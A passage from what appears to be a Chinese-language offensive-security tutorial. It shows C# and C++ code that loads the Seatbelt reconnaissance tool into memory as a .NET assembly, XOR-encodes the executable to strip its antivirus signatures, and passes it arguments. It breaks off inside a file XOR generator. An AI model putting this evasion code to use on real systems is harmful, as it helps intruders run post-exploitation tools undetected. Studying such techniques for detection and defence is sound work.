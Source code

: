 ```
            Assembly assembly = Assembly.Load(buffer);   
            try
            {       
                assembly.EntryPoint.Invoke(null, new object[] { commands });
            }
            catch
            {
                MethodInfo method = assembly.EntryPoint;
                if (method != null)
                {
                    object o = assembly.CreateInstance(method.Name);                    
                    method.Invoke(o, null);
                }
            }
        }
    }
}
```

将Seatbelt.exe作base64编码后的字符串替换以上代码中的`<base64 string>`

同样，以上代码可以使用Visual Studio或者直接使用csc.exe进行编译

## 0x04 使用execute-assembly加载Seatbelt并传入参数的方法
---
实现语言：C++

实现思路：

将Seatbelt.exe的内容保存在数组中，读取后使用`Load_3`(…)加载.NET程序集，最后向Main函数传入参数

为了去除Seatbelt.exe的特征码，可以将Seatbelt.exe中逐个字符作异或运算后再保存到数组中

这里使用[HostingCLR](https://github.com/etormadiv/HostingCLR)作为代码开发的模板

[HostingCLR](https://github.com/etormadiv/HostingCLR)的代码未解决参数传递的问题，无法向.NET程序集的Main函数传入参数，代码位置：

https://github.com/etormadiv/HostingCLR/blob/master/HostingCLR/HostingCLR.cpp#L218

我的代码解决了参数传递的问题，并且通过将Seatbelt.exe中逐个字符作异或运算后再保存到数组中的方式去除Seatbelt.exe的特征码

实现代码：

#### 1.将exe文件中逐个字符作异或运算后再保存为新的文件

c++实现代码：

```
int main(int argc, char* argv[])
{
	if (argc != 3)
	{
		printf("File_XOR_generator\n");
		printf("Usage:\n");
		printf("%s <file path> <XOR inputs>\n", argv[0]);
		printf("Eg:\n");
		printf("%s test.exe 0x01\n", argv[0]);

		return 0;
	}

	int x;
	sscanf_s(argv[2], "%x", &x);

	FILE* fp;
	int err = fopen_s(&fp, argv[1], "ab+");
	if (err != 0)
	{
```